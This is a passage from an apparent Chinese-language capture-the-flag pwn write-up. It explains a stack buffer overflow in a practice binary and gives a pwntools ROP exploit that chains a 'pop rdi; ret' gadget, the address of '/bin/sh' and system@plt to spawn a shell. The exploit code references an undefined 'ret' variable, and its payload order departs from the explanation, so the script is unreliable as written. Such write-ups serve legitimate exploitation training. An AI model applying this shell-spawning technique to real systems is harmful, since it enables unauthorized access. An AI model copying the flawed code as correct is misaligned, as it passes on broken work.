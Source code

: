 ![image-20220318184024535](自救指南.assets/image-20220318184024535.png)

最重要的一步就是rop链的构造, 溢出覆盖了buf和rbp, 要考虑函数返回地址要覆盖为什么. 想一个问题, 我们肯定是先要将参数给准备好了, 才能去执行函数, 所以这里的返回地址应该先填为`pop rdi;ret`地址, 将"/bin/sh"地址传入寄存器, 再通过`pop rdi;ret`的ret指令返回执行system@plt(也就是执行system)

#### Exploit

```python
from pwn import*
o = process('./level01')
elf = ELF('./level01')
system_plt = elf.plt['system']	# 通过pwntools的elf模块解析出system@plt的地址
bin_sh = 0x0000000000400644
pop_rdi = 0x0000000000400623
payload = 'a'*0x18	# 覆盖buf和rbp
payload += p64(pop_rdi) + p64(bin_sh) + p64(ret)	# 将/bin/sh传入rdi
payload += p64(system_plt)	# ret返回执行system@plt
o.sendline(payload)
o.interactive()
```

![image-20220318190037261](自救指南.assets/image-20220318190037261.png)
